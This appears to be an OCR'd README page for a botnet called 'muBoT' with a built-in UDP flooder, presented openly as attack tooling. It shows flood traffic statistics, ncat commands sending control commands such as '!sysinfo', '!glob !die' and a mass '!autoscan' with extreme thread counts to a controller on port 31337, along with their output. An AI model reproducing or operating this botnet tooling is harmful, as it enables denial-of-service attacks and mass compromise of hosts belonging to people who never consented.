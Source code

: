                            rx         |       tx
--------------------------------------+------------------
  bytes                     7.39 GiB  |         157 KiB
--------------------------------------+------------------
          max            3.40 Gbit/s  |       46 kbit/s
      average          377.78 Mbit/s  |     7.66 kbit/s
          min               1 kbit/s  |        1 kbit/s
--------------------------------------+------------------
  packets                    7442394  |             460
--------------------------------------+------------------
          max             398919 p/s  |          15 p/s
      average              44299 p/s  |           2 p/s
          min                  1 p/s  |           1 p/s
--------------------------------------+------------------
  time                  0.80 minutes

UDP Flooder v1.2.8 FINAL by ohnoes1479 <--- hehe leet

root@lamer:~# echo '!dc 10.0.0.106 !sysinfo' | ncat 10.0.0.103 31337
muBoT Remote System Information

lo IP Address 127.0.0.1
ens18 IP Address 10.0.0.106
lo IP Address ::
ens18 IP Address 0:0:fe80::bcad:2dff
Total RAM 1994 MB - Free RAM: 1441 MB
model name	: Intel(R) Core(TM) i7-XXXXXX CPU @ 3.00GHz

cpu MHz		: 2993.302

cpu cores	: 4



the sysinfo system is tiny i think its no more needed if u know some !bash commands


root@lamer:~# echo '!glob !die' | ncat 10.0.0.103 31337
Purge BoT>RM AUTOSTART>KILL BoT>RM DBs>RM BOT...
Purge BoT>RM AUTOSTART>KILL BoT>RM DBs>RM BOT...
Purge BoT>RM AUTOSTART>KILL BoT>RM DBs>RM BOT...
Purge BoT>RM AUTOSTART>KILL BoT>RM DBs>RM BOT...
Purge BoT>RM AUTOSTART>KILL BoT>RM DBs>RM BOT...
Purge BoT>RM AUTOSTART>KILL BoT>RM DBs>RM BOT...
Purge BoT>RM AUTOSTART>KILL BoT>RM DBs>RM BOT...
..............
the bot is complety removed from system and from crontab.


!autoscan 	> !autoscan <change range every x mins> <mins to run autoscan> <THREADS>


you can enter !glob !autoscan 30 1000000000 10000


